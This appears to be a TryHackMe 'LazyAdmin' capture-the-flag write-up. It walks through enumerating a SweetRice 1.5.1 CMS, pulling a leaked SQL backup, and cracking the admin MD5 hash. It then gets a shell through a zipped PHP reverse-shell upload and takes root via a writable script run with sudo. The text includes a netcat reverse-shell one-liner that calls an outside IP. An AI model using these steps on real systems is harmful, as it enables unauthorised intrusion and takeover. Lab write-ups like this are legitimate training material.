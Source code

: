 ## LazyAdmin Writeup

author: Oskar Biernacki 

platform: TryHackMe

link: https://tryhackme.com/room/lazyadmin

### Gobuster Enumeration  
---

```
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --url "http://10.10.119.124/"
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.119.124/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 316] [--> http://10.10.119.124/content/]
Progress: 6110 / 220558 (2.77%)^C
                                                                                                                                                                                                                                             
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --url "http://10.10.119.124/content"
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.119.124/content
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 323] [--> http://10.10.119.124/content/images/]
/js                   (Status: 301) [Size: 319] [--> http://10.10.119.124/content/js/]
/inc                  (Status: 301) [Size: 320] [--> http://10.10.119.124/content/inc/]
/as                   (Status: 301) [Size: 319] [--> http://10.10.119.124/content/as/]
/_themes              (Status: 301) [Size: 324] [--> http://10.10.119.124/content/_themes/]
/attachment           (Status: 301) [Size: 327] [--> http://10.10.119.124/content/attachment/]

```

### Manual Enumeration  
---

The content of `http://10.10.119.124/content/inc/lastest.txt` is `1.5.1`.  
This shows us that the CMS version is probably 1.5.1.  

At `http://10.10.119.124/content/as/` there is a login page for a CMS called `SweetRice`.

The system seems to be:
```  
SweetRice 1.5.1
```  

### Weaponization
---

```
┌──(kali㉿kali)-[~/Desktop]
└─$ searchsploit SweetRice 1.5.1
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
SweetRice 1.5.1 - Arbitrary File Download                                                                                                                                                                  | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload                                                                                                                                                                    | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure                                                                                                                                                                        | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery                                                                                                                                                               | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution                                                                                                                                          | php/webapps/40700.html
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

It looks like this version of SweetRice is vulnerable.

### Exploitation
---

Following `SweetRice 1.5.1 - Backup Disclosure`, we can download an SQL backup from `http://10.10.119.124/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql`.  

The only interesting thing there is:
```
'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```  

Especially: 
```
"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\"
```

It's giving us credentials for the manager.

After running 
```bash
hashcat -m 0 42f749ade7f9e195bf475f37a44cafcb /usr/share/wordlists/rockyou.txt
```

we have:


| user     | password (hash)                  | cracked      |
|----------|----------------------------------|--------------|
| `manager`| `42f749ade7f9e195bf475f37a44cafcb` | `Password123` |



Let's test if it works for the admin panel or SSH.  

Login at `http://10.10.119.124/content/as/` works.  


Now I try to upload a `.php` file at `http://10.10.119.124/content/as/?type=media_center&dir=test/`  
But uploading a `.php` file does not work (some filters).  
Anyway, there is an `Extract zip archive?` option while uploading.
![](lazyadmin_20250917105730617.png)  

Using a reverse shell from pentestmonkey:   
```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php 
```
I created `shell.php` and packed it into a zip file.  

After triggering it, we have a shell.
![](lazyadmin_20250917111154352.png)


### Privilege Escalation  
---

```bash
$ cat mysql_login.txt
rice:randompass
```

Interesting sudo for www-data:
```bash
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

```
I followed this privilege and found out that we can write and execute `/etc/copy.sh`, which can be run as root with sudo.

```bash
$ cat backup.pl 
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
$ cat /etc/copy.sh    
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
$ ls /etc/copy.sh -la
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

So we can easily get root:  
```bash
$ echo "/bin/bash" > /etc/copy.sh && sudo /usr/bin/perl /home/itguy/backup.pl
id
uid=0(root) gid=0(root) groups=0(root)
```

And now we can read all